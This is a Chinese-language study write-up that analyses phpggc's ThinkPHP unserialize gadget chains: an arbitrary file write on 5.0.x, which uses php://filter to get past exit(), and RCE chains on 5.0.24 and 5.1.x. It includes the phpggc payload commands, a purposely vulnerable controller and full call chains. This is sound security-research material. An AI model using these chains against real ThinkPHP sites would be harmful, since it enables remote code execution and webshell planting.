






phpggc中关于thinkphp的攻击思路学习
5.0.4-5.0.24 写文件
使用用法
第一个参数是要写到哪个文件夹下面,第二个参数是本地的文件路径,后面base64会将换行符号去除
./phpggc ThinkPHP/FW1 /srv/http/tp5/ shell.php | base64 -w 0
环境搭建
在controller下面的Index.php中写入反序列化代码
<?php
namespace app\index\controller;
class Index
{
public function index()
{ unserialize(base64_decode($_GET['a']));
}
}
漏洞分析
调试开始, 首先在think\Process#__destruct下断点, 随后跟进到close函数中,这里控制processPipes为think\model\relation\HasMany对象,触发其__call方法,进而进入其baseQuery 方法. 在这个方法中可以触发think\console\Output的__call方法

在这个__call方法中,可以看到调用了call_user_func_array函数, 调用的是block函数, 参数是我们控制的payload


这里前面的AAA是为了绕过后文中出现的死亡exit而添加的.后面再说.
又经过了think\console\Output的writeln 和write 方法后进入 think\session\driver\Memcache#write,

handler是think\cache\driver\Memcached对象,进入其set方法
<butu
进入set方法中的has方法

handler是think\cache\driver\File对象,get方法调用了getCacheKey方法


返回结果为php://filter/convert.base64-decode/resource=/srv/http/tp5/6a644d26b09257b882dae6e407f23d42.php, 因为这不是一个文件,所以返回了default的值也就是false, 那么前面提到的think\cache\driver\Memcached#has返回的也是false.
回到think\cache\driver\Memcached#set,进入think\cache\driver\Memcached#getCacheKey,返回的key是<where>AAAPD9waHAgcGhwaW5mbygpOz8+Cg++</where>

随后进入下面一行的think\cache\driver\File#set, 注意这里是第一次进入think\cache\driver\File#set .

在这个set方法中调用getCacheKey方法, 和之前一样返回的是php://filter/convert.base64-decode/resource=/srv/http/tp5/6a644d26b09257b882dae6e407f23d42 , 然后在下文进行一次文件写,但是这里写出来的文件不是目标文件!, 你看:

exit后面不是我们的payload, 但是别着急, 之后还会回来这里一次, 那次就会将payload写进去了.
这一步之后, 返回think\cache\driver\Memcached#set, 并随之调用setTagItem方法


tag的生成是根据this->tag的md5值来决定的, 这里this->tag是null, 所以生成的tag是我们可以预测的值也就是tag_c4ca4238a0b923820dcc509a6f75849b, 然后带着这个tag值和我们的payload作为key和value , 再次进入think\cache\driver\Memcached#set方法, 并在其中第二次进入think\cache\driver\File#set方法

注意到和第一次进入think\cache\driver\File#set有什么不一样吗? 第一次进入的时候, payload的值(也就是<where>AAAxxxxxx那个东西)是被赋值给了set函数的name参数, 但是第二次进入的时候, name参数tag值, value参数是payload.
最后在这次set函数中, 成功将payload拼接在了exit后面, 并使用php://filter成功绕过, 当然,通过getCacheKey方法得到的文件名只不过是对tag值的一次md5而已.

到此为止,成功写入文件, 需要注意的是phpggc生成的这个payload写入的文件文件名是固定的3b58a9545013e88c7186db11bb158c44.php, 理由前面说过, 就是该文件名的生成就null值的md5再拼接上字符串tag_然后再进行md5.
整体思路如下, 感觉最关键的还是在setTagItem那一步, 那一步将原本是key的payload变成了value参数, 并使其在后面成功被写入文件.
think\Process#__destruct -->
think\Process#stop -->
think\model\relation\HasMany#close -->
think\model\relation\HasMany#__call -->
think\model\relation\HasMany#baseQuery -->
think\console\Output#where -->
think\console\Output#__call -->
call_user_func_array -->
think\console\Output#block --> writeln --> write -->
think\session\driver\Memcache#write -->
think\cache\driver\Memcached#set (1) -->
think\cache\driver\Memcached#has -->
think\cache\driver\File#get --> getCacheKey --> 将php://filter伪协议拼接到开头,返回php://filter/convert.base64-decode/resource=/srv/http/tp5/6a644d26b09257b882dae6e407f23d42.php ,注意这个文件不是目标文件 -->
think\cache\driver\Memcached#getCacheKey 返回<where>AAAPD9waHAgcGhwaW5mbygpOz8+Cg++</where> -->
think\cache\driver\File#set --> getCacheKey获取文件名,对<where>AAAPD9waHAgcGhwaW5mbygpOz8+Cg++</where>进行md5之后进行拼接成为php://filter/convert.base64-decode/resource=/srv/http/tp5/6a644d26b09257b882dae6e407f23d42.php,同时这里可以进行一个mkdir,然而这里的目录名是非法的,然后返回文件名 -->
回到set方法,$data前面拼接上了死亡exit,进行file_put_contents,生成文件 6a644d26b09257b882dae6e407f23d42.php,内容为乱码 -->
回到(1) 函数 -->
think\cache\driver\Memcached#setTagItem 生成可控的tag名-->
再次进入think\cache\driver\Memcached#set , 两个参数都可控 -->
think\cache\driver\File#set 参数是前面的两个参数 --> getCacheKey 将tag名进行md5之后进行拼接得到 php://filter/convert.base64-decode/resource=/srv/http/tp5/3b58a9545013e88c7186db11bb158c44.php -->
回到\think\cache\driver\File#set 对之前可控参数之一data进行死亡exit拼接,并进行file_put_contents,效果就是file_put_contents('php://filter/convert.base64-decode/resource=/srv/http/tp5/3b58a9545013e88c7186db11bb158c44.php', '<?php\n//000000000000\nexit();?>\ns:46:"<where>AAAPD9waHAgcGhwaW5mbygpOz8+Cg++</where>";') -->
文件写入成功,内容为乱码+php代码
5.0.24 RCE
环境搭建
同上
漏洞分析
首先生成payload
./phpggc ThinkPHP/RCE2 system "touch /tmp/helloman" | base64 -w 0
开始调试前, 请确认你的php环境的版本, 如果版本是php7.x, 请打开文件thinkphp/library/think/db/Query.php 看第400行代码, 这里使用我的带有警告提示的vim看:

这种写法在php7.x中已经被弃用, 具体是哪一个子版本我没有深究. 总之, 如果发现payload不能执行, 请切换自己的php版本, 或者像我一样将这一行删掉改成上图第400行.
PS: 这里要吐槽一下Arch Linux Aur里面的php56-xdebug包…17年开始就不更新了, 21年都有用户在评论说得修改构建文件才可以安装.
好了, 下面开始调试.
第一部分, 和过往thinkphp5.0.24写文件反序列化链的前半部分一样,具体可以参考https://althims.com/2020/02/07/thinkphp-5-0-24-unserialize/#more , 这里就简单说明.
首先进入think\process\pipes\Windows#__destruct的think\process\pipes\Windows#removeFiles, 其中的file_exists函数会触发think\model\Pivot#__toString, 然后think\model\Pivot会触发内部的toJson 然后触发toArray, 在这个函数中, 控制代码执行到912行的$value->getAttr($attr), $value是think\console\Output对象, 这会触发think\console\Output#__call

接下来触发think\console\Output的block writeln write 三个方法

handle是think\session\driver\Memcached对象

handler是think\cache\driver\Memcache对象, 它的set 方法会调用它的has方法

这里, handler是think\Request对象, rce最终将会在这个对象中触发, 跟进可以看到调用了input方法

在input方法中, input方法的参数如下
public function input($data = [], $name = '', $default = null, $filter = '')
输入的参数如下

经过了一系列对数组的处理后 , 代码进入$filter = $this->getFilter($filter, $default);

在这里, “system” 字符串会被赋予给filter并转换为数组后返回
接下来代码执行到$this->filterValue($data, $name, $filter);输入如下


到这里代码执行完成.
完整调用链条
think\process\pipes\Windows#__destruct -->
think\process\pipes\Windows#removeFiles -->
file_exists -->
think\model\Pivot#__toString -->
think\model\Pivot#toJson -->
think\model\Pivot#toArray -->
$value->getAttr($attr) -->
think\console\Output#__call -->
think\console\Output#block -->
think\console\Output#writeln -->
think\console\Output#write -->
$this->handle->write -->
think\session\driver\Memcached#write -->
$this->handler->set -->
think\cache\driver\Memcache#set -->
think\cache\driver\Memcache#has -->
$this->handler->get -->
think\Request#get -->
think\Request#input -->
think\Request#filterValue -->
call_user_fund($filter, $value)
ps: 该链子的前半部分可以使用FW1链子的前半部分 ,也就是
think\Process#__destruct -->
think\Process#stop -->
think\model\relation\HasMany#close -->
think\model\relation\HasMany#__call -->
think\model\relation\HasMany#baseQuery -->
think\console\Output#where -->
think\console\Output#__call
5.1.x-5.2.x RCE
环境搭建
./phpggc ThinkPHP/RCE1 system id | base64 -w 0
composer create-project topthink/think=5.1.41 thinkphp5141 --prefer-dist
和之前一样,写入一个反序列化入口.
漏洞分析
首先,反序列化进入think\process\pipes\Windows#__destruct, 进入removeFiles方法

filename 是 think\model\Pivot 对象, file_exists方法触发__toString方法, 经过toJson 方法后触发toArray方法, 部分代码如下

think\model\Pivot->data从父类think\model中获取, relation为空, 得到结果为{smi1e => "id"}
接着触发$this->getAttr($key), key是smi1e.

首先通过getData函数,获取到字符串id, 然后通过$this->withAttr[$fieldName] 获取到system字符串, 中间能跳过的if判断都跳过


最后在第493进行动态执行, 这里传入的参数有两个,第一个就是要执行的命令, 第二个根据php手册, 应该是int类型的引用变量, 负责记录命令执行 的结果, 但是这里为什么传入第二个参数是数组却还是可以执行呢? 我也不知道, 不过确实是可以的, 可以执行以下代码来验证
<?php
$a = ["smile"=>"id"];
system("touch flag",$a);
think\process\pipes\Windows#__destruct -->
think\process\pipes\Windows#removeFiles -->
file_exists -->
think\model\Pivot#__toString -->
think\model\Pivot#toJson -->
think\model\Pivot#toArray -->
think\model\Pivot#getAttr -->
think\model\Pivot#getData 获取命令字符串 -->
通过可控数组索引获取system字符串, b